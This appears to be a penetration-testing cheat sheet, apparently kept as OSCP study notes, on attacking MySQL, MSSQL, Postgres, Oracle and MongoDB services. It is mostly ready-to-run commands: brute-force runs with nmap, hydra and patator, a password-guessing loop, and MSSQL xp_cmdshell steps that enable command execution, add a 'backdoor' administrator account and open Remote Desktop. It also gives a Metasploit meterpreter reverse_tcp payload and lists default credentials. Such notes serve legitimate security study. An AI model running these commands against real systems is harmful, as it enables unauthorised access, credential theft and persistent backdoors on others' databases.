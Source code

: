 ```yaml
---
typora-copy-images-to: ./images
---
```


# Databases



## [3306,MySQL]
**Links**
https://recipeforroot.com/mysql-to-system-root/
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
https://www.electrictoolbox.com/shell-commands-mysql-command-line-client/

https://sushant747.gitbooks.io/total-oscp-guide/list_of_common_ports.html
https://www.electrictoolbox.com/shell-commands-mysql-command-line-client/
https://highon.coffee/blog/lord-of-the-root-walkthrough/

Very often has a root user, can be brute forced

```shell
nmap {nmap_extra} -sV -p {port} --script="(mysql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)"
nmap -p 3306 --script mysql-brute --script-args userdb=/usr/share/wordlists/mysql_users.txt,passdb=/usr/share/wordists/rockyou.txt -vv 192.168.31.139
nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 INSERTIPADDRESS -p 3306
mysql -h 192.168.100.138 -p
```



**If you have a local shell try this bash script to override for the root account(worth a try)**
while [ 1 ];do mysql -u root --password=123; done

**Connect to MySQL**
mysql -u root -p



## [1433,1434,mssql] UDP 1433,1334

**MS SQL Server Enumeration**
https://www.hackingarticles.in/mssql-peneration-testing-using-nmap/
https://www.adampalmer.me/iodigitalsec/2013/08/10/accessing-and-hacking-mssql-from-backtrack-linux/
http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/
https://www.google.com/search?client=safari&rls=en&q=mssql+default+passwords&ie=UTF-8&oe=UTF-8
http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

`nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`

```bash
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
sqsh -U <username> -P <password> -S {address}:{port}
sqsh -S 192.168.1.101 -U sa -P password

sqsh -S 10.0.0.1 -U sa -P fdasjkl3 -C "SELECT name FROM master.dbo.sysdatabases"
```

**Leverage xp_cmdshell to get a shell**
**If xp_cmdshell is not turned on then you have to enable it. This requires "advanced options" to be on:**

```bash
sqsh -S <ip_address> -U sa -P <password>
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
exec sp_configure ‘xp_cmdshell’, 1
go
reconfigure
go
xp_cmdshell ‘dir C:\’
go


xp_cmdshell 'net user bob password /add'
go
xp_cmdshell 'net localgroup Administrators bob /add'
go
```



**Enable Remote Desktop**
`xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'`
`go`



**Use Nmap to remotely execute commands through MS-SQL**

```shell
nmap -Pn -n -sS –script=ms-sql-xp-cmdshell.nse <victim_ip> -p1433 –script-args mssql.username=sa,mssql.password=<sql_password>,ms-sql-xp-cmdshell.cmd=”net user backdoor backdoor123 /add”
nmap -Pn -n -sS –script=ms-sql-xp-cmdshell.nse 10.11.1.31 -p1433 –script-args mssql.username=<sql_user>,mssql.password=<sql_password>,ms-sql-xp-cmdshell.cmd=”net localgroup administrators backdoor /add”
```

**Metasploit:**

```shell
msf > use auxiliary/scanner/mssql/mssql_ping
msf > use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_exec

msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```



## Postgres 5432,5433
**No root user but psql or postgres**
`psql -h 192.168.100.138 -p 5433 -U root -w`
`hydra -l postgres -P weak.txt postgres://192.168.100.138`
`psql -h 192.168.100.138 -p 5433 -U postgres`



## Oracle port 1521,1541

https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573
https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#oracle
https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener
https://www.doyler.net/security-not-included/oracle-command-execution-sys-shell
https://security.stackexchange.com/questions/95729/oracle-sql-injection-reverse-shell

1. Enumerate version info (search for known vulns)
2. Bruteforce TNS listener communication (not always needed)
3. Enumerate/Bruteforce SID names (like database names)
4. Bruteforce credentials for valid SID name discovered
5. Try to execute code 



Default passwords https://docs.oracle.com/cd/B10501_01/win.920/a95490/username.htm
`tnscmd10g status -h INSERTIPADDRESS`
a lot of default passwords available

```bash
nmap {nmap_extra} -sV -p {port} --script="(oracle* or ssl*) and not (brute or broadcast or dos or external or fuzzer)"
oscanner -v -s {address} -P {port}

nmap {nmap_extra} -sV -p {port} --script="oracle-sid-brute"
patator oracle_login host={address} port={port} user=COMBO00 password=COMBO01 0=/usr/share/seclists/Passwords/Default-Credentials/oracle-betterdefaultpasslist.txt -x ignore:code=ORA-01017 -x ignore:code=ORA-28000'
hydra -f -I -C /usr/share/seclists/Passwords/Default-Credentials/mssql-betterdefaultpasslist.txt mssql://{ip}:{port}
```



**Port 2100 - Oracle XML DB**
sys:sys
scott:tiger

![Oracle ports1](images/Oracle ports1.png)

![Oracle ports2](images/Oracle ports2.png)

![Oracle ports3](images/Oracle ports3.png)

![Oracle ports4](images/Oracle ports4.png)




## No SQL
Often means no authentication, brute force is fast because design  of databases like reddis

### [27017,mongod]
`nmap {nmap_extra} -sV -p {port} --script="mongodb*"`
You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`).  NoSQLMap can help you to automate NoSQLDatabase enumeration.

**NoSQLMap Examples**



**NoSQLMap Installation**

```bash
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap/
ls
pip install couchdb
pip install pbkdf2
pip install ipcalc
python nosqlmap.py --help
```

/usr/share/wordlists/SecLists/Passwords/Default-Credentials/mssql-betterdefaultpasslist.txt
hydra -C default_accounts.txt ftp://localhost

### MySql, Oracle, PostgreSQL, SQLlite, MS-Sql bruteforcer and database browser
`hexorbase`
`nmap {nmap_extra} -sV -p {port} --script="(ms-sql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" --script-args="mssql.instance-port={port},mssql.username=sa,mssql.password=sa"`

## [50000,DB2]